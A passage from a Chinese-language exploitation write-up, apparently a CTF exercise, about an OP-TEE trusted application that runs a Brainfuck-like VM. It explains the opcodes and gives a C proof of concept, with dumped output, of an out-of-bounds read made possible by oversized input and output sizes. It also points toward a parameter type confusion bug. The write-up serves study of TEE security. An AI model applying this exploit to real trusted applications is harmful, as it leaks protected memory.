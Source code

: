 ```c {hide=true}
  }
  __asm { POP             {R7,PC} }
  return result;
}
```

代码逻辑如下：

1. `+`：`mem[mem_idx]++`
2. `-`：`mem[mem_idx]--`
3. `>`：`mem_idx++`
4. `<`：`mem_idx--`
5. `,`：`mem[mem_idx++] = in[in_idx++]`
6. `.`：`out[out_idx++] = mem[mem_idx++]`

## 越界读（没用到）

vm执行code的时候有`validate_memory_bounds`函数检查是否越界，但是当输入的`input_size/output_size`大于`input/output`实际大小的时候还是可以造成越界的。

写了个poc验证了一下，确实可以越界：

```c {hide=true}
    char *code = (char *)calloc(0x100, sizeof(char));
    for (size_t i = 0; i < 0x40; i++) {
        code[i] = ',';
    }
    for (size_t i = 0x40; i < 0x60; i++) {
        code[i] = '<';
    }
    for (size_t i = 0x60; i < 0x80; i++) {
        code[i] = '.';
    }
    char input[0x20] = { 0, };
    char output[0x20] = { 0, };
    run_code(&sess, code, strlen(code), input, 0x100, output, 0x100);
    hex_dump(output, 0x20);
```

结果：

```bash {hide=true}
# /mnt/host/sas_ta_exploitation_exploit 
[+] run_code_cmd: done!
0x00000004 0x41414141 0x75737472 0x73695f74
0x73657573 0x7ea4ec8c 0x00000002 0x00000003
```



## 参数类型混淆

参考：

* [文档](https://optee.readthedocs.io/en/latest/building/trusted_applications.html#checking-ta-parameters)
* [GlobalConfusion](https://hexhive.epfl.ch/publications/files/24SEC4.pdf)
